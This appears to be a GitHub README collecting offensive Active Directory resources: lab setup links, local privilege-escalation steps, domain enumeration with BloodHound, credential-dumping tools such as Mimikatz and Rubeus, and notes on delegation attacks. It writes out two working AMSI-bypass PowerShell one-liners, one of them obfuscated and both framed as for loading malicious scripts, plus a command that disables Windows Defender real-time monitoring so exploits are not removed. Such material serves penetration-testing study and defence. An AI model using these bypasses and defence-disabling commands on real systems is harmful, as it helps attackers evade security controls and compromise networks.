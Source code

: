 # AD-Security-Resources

<p><h2>Setting up active directory lab :</h2>
<p>https://github.com/outflanknl/Invoke-ADLabDeployer 
<p> AutomatedLab - Works good for small labs based on HyperV
 
<p><h2>Local Computer Enumeration and Privesc : </h2>

<p>1. Bypass Execution Policy : 

<p>One of the 15 methods mentioned in the blog usually works.. </p>
<p>https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/

<u>Notes :</u> Bypassing Powershell execution policy issues : </H2>


<p>2. AMSI Bypass for loading malicious scripts:
<p>  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell </p>
<u>Few scripts that usually works quickly </u>
<p>sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} ) </p>

<p>[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)</p>

<u>Detailed Article on this subject : </u>
https://blog.f-secure.com/hunting-for-amsi-bypasses/
https://burmat.gitbook.io/security/hacking/domain-exploitation#user-and-computers-with-unconstrained-delegation

<p>3. Constrained Language Mode :</p> 
Constrained Language consists of a number of restrictions that limit unconstrained code execution on a locked-down system.  (https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)

AD Module usually goes undetected and can be used for enumerating from the system with CLM enabled.
https://www.labofapenetrationtester.com/2018/10/domain-enumeration-from-PowerShell-CLM.html

Few other interesting methods to bypass CLM 
https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/

Other references : 
https://github.com/padovah4ck/PSByPassCLM
https://chickenpwny.github.io/concepts/bypass/

<p>4. Turning of Windows Defender - Real Time Monitoring (for not letting exploits to be deleted):</p>
Set-MpPreference -DisableRealtimeMonitoring $true

<p>5. Privesc on Local Computer </p>
Run Invoke-AllChecks 
<p>PowerView / Powersploit: https://github.com/PowerShellMafia/PowerSploit</p>


<H2>Domain Enumeration</h2>

<p><h3>1. ACL Enumeration and escalation :</h3></p>
<p>Some of the Active Directory object permissions and types that we as attackers are interested in:</p>
<p><b>GenericAll</b> - full rights to the object (add users to a group or reset user's password)
<p><b>GenericWrite</b> - update object's attributes (i.e logon script)
<p><b>WriteOwner</b> - change object owner to attacker controlled user take over the object
<p><b>WriteDACL</b> - modify object's ACEs and give attacker full control right over the object
<p><b>AllExtendedRights</b> - ability to add user to a group or reset password
<p><b>ForceChangePassword</b> - ability to change user's password
<p><b>Self (Self-Membership)</b> - ability to add yourself to a group
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces

AD Module :
  https://github.com/samratashok/ADModule

<p>2. Bloodhound - Visualizing the attack patch and AD Objects
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound

<p>Command for extracting data using bloodhound :
Invoke-BloodHount -CollectionMethod All </p>
<p><i>NOTE : In case zip file upload does not yield any results, extract and upload file-by-file. That works ! </i></p>
Lateral Movement Automation using Bloodhound data :
  https://github.com/GoFetchAD/GoFetch

<p>3. Tools for Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
Mimikatz : https://github.com/gentilkiwi/mimikatz

Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

Rubeus :
  https://github.com/GhostPack/Rubeus

<p>4. Generate HTML report of AD Security Posture - Pingcastle :
  https://github.com/vletoux/pingcastle

<p>5 Delegation attacks 

<p>5.1 Unconstrained Delegation
When a user authenticates to a computer that has unresitricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory. It will be possible to extract the same once the system is compromised.
 
<p>5.2 Constrained Delegation
If you have compromised a user account or a computer (machine account) that has kerberos constrained delegation enabled, it's possible to impersonate any domain user (including administrator) and authenticate to a service that the user account is trusted to delegate to.

<p>5.3 Resource Based Constrained Delegation
It's possible to gain code execution with elevated privileges on a computer if you have WRITE privilege on that computer's AD object.
 
<p><h2> References : </h2>
Huge list of AD security resources available below :
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/

